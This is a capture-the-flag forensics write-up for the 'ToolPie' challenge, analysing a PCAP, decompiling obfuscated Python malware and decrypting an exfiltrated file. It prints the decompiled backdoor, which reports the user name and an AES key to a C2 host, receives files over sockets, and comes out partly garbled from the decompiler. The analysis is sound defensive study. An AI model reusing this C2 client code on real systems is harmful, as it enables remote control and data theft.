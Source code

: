 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | ToolPie Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: ToolPie
tags: "forensics, twh, pcap, wireshark, tshark, python, obfuscation, aes"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## ToolPie
> Solved by thewhiteh4t


- We were given a PCAP in this challenge


- What is the IP address responsible for compromising the website?
    - Based on POST requests in the PCAP : `194.59.6.66`
- What is the name of the endpoint exploited by the attacker?
    - Based on POST requests : `/execute`
- What is the name of the obfuscation tool used by the attacker?
    - Simply printing the script found above shows a code object which contains a string : `Py-Fuscate`

```    
# replaced exec() with print()
> python chal.py
<code object <module> at 0x555555605650, file "Py-Fuscate", line 1>
```

- What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
    - To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
    - However none of the tools worked due to python version mismatch, so I found `pylingual`
    - in the code we can see the IP and port : `13.61.7.218:55155`

```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: Py-Fuscate
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 2025-03-24 20:26:54 UTC (1742848014)
from os import popen
pass
pass
import socket
import threading
import os
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'
CONN = True
def enc_mes(mes, key):
    try:
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        mes = mes.encode() if type(mes)!= bytes else mes
        return cypher.encrypt(pad(mes, cypher_block))
    except:
        return None
def dec_file_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    cypher_block = 16
    s = cypher.decrypt(mes)
    return unpad(s, cypher_block)
def dec_mes(mes, key):
    if mes == b'':
        return mes
def receive_file():
    try:
        client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client2.connect(('13.61.7.218', 54163))
        k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
        client2.send(k.encode())
        pass
        enc_received = client2.recv(BUFFER_SIZE)
        received = dec_mes(enc_received, k).decode()
        filename, filesize = received.split(SEPARATOR)
        ok_enc = enc_mes('ok2', k)
        client2.send(ok_enc)
        total_bytes = 0
        msg = b''
        if total_bytes < int(filesize):
            bytes_read = client2.recv(BUFFER_SIZE)
            msg += bytes_read
            total_bytes += len(bytes_read)
        decr_file = dec_mes(msg, k)
        with open(filename, 'wb') as f:
            f.write(decr_file)
                pass
                client2.close()
    except:
        pass  # postinserted
    client2.send('Error transporting file'.encode())
def receive(client, k):
    pass
    try:
        pass  # postinserted
    s += 1
    msg = client.recv(1024)
    raise Exception('Reconnect!') if s == 300 else True if msg == b'' else False
    except:
        pass  # postinserted
    pass
    try:
        pass  # postinserted
    client.close()
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
    client.send(f'{user}{SEPARATOR}{k}'.encode())
    client.settimeout(600)
    time.sleep(60)
    except:
        time.sleep(60)
if __name__ == '__main__':
    pass
    try:
        pass  # postinserted
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join((random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16)))
    client.send(f'{user}{SEPARATOR}{k}'.encode())
    client.settimeout(600)
    break
    receive_thread = threading.Thread(target=receive, args=(client, k))
    receive_thread.start()
except:
    pass  # postinserted
time.sleep(50)
```

- What encryption key did the attacker use to secure the data?
    - In the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
    - we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`


- What is the MD5 hash of the file exfiltrated by the attacker?
    - Since we have the key, we can write our own decryption script
    - first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
    - now we can write a script to parse data chunks and decrypt the stolen files

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def dec_file_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    cypher_block = 16
    s = cypher.decrypt(mes)
    return unpad(s, cypher_block)

key = '5UUfizsRsP7oOCAq'

filename = None
size = 0
container = b''
filling = False
got_size = False

with open('datafile.txt') as encfile:
    hex_lines = encfile.readlines()
    for line in hex_lines:
        got_name = False
        if filename:
            got_name = True

        msg = bytes.fromhex(line)
        if b'SEPARATOR' in msg:
            continue

        if not filling:
            decr_file = dec_file_mes(msg, key)
            if b'C:' in decr_file:
                filename = decr_file.decode().split('\\')[-1]
                print('[+] Filename : ', filename)
            if got_name and not got_size:
                if int(decr_file.decode()):
                    size = int(decr_file.decode())
                    print('[+] File Size : ', size)
                    got_size = True
            if size and b'ok' in decr_file:  # handle last ok msg after size
                filling = True
        else:
            if len(container) != size:
                container += msg

    decr_file = dec_file_mes(container, key)
    print(f'[+] Writing : {filename}')
    with open(filename, 'wb') as outfile:
        outfile.write(decr_file)
```    


![](https://i.imgur.com/8nMLOhx.png)


MD5 Hash : `8fde053c8e79cf7e03599d559f90b321`



